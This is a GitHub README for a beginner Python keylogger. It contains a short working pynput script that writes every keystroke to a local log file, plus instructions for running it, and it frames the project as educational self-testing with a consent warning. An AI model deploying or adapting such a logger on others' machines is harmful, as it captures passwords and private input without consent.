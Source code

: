 ```yaml
---

# 🔐 Simple Keylogger

## 📖 Overview
This task is a basic Python keylogger designed to log user keystrokes and save them to a file. It’s built using the pynput library and intended for educational use in controlled environments.

## ⚠️ Ethical Reminder: Never use keyloggers without the full consent of the machine owner. This tool is for self-testing and learning only.

---
```


## ✨ Features
✅ Logs every key pressed on the keyboard

🗂️ Saves output to a `.txt` file for review

⏱️ Real-time logging while script is active

📄 Supports regular and special key detection


## 🛠️ Requirements
- Python 3.13.5
- `pynput` library

Install via pip:

```bash
pip install pynput
```

## 🛠️ Tech Stack
| Component	 | Description          |
|------------|----------------------|
| Language	 |    Python 3.x        |
|Library	   |    pynput            |
|Environment |   Windows OS         |
|Editor	     |   VS Code or Notepad |

---

## 📄 Sample Code
```python
from pynput.keyboard import Listener

def on_press(key):
    with open("log.txt", "a") as file:
        try:
            file.write(f"{key.char}")
        except AttributeError:
            file.write(f"{key}")

with Listener(on_press=on_press) as listener:
    listener.join()
```

## 🚀 How to Use
- Create a file `keylogger.py` in a folder of your choice.
- Paste the code above.
- Open your terminal or command prompt.
- Run the script:

```bash
python keylogger.py
```
- Start typing anywhere and your input will be saved in `log.txt`.

To stop the logger, press `Ctrl + C` in the terminal.

---

<img width="1049" height="509" alt="Screenshot 2025-07-10 190026" src="https://github.com/user-attachments/assets/dab41e76-2463-4c4a-a4f0-5332548d6f07" />
<img width="1205" height="719" alt="Screenshot 2025-07-14 105714" src="https://github.com/user-attachments/assets/3f752724-1e69-411c-8c32-2a170188a71a" />
<img width="1366" height="719" alt="Screenshot 2025-07-14 105610" src="https://github.com/user-attachments/assets/29dab847-3809-4ccd-88c9-b9054982a0f5" />
<img width="1244" height="513" alt="Screenshot 2025-07-14 110100" src="https://github.com/user-attachments/assets/12382765-411c-4a7d-9524-0df682bf68dc" />

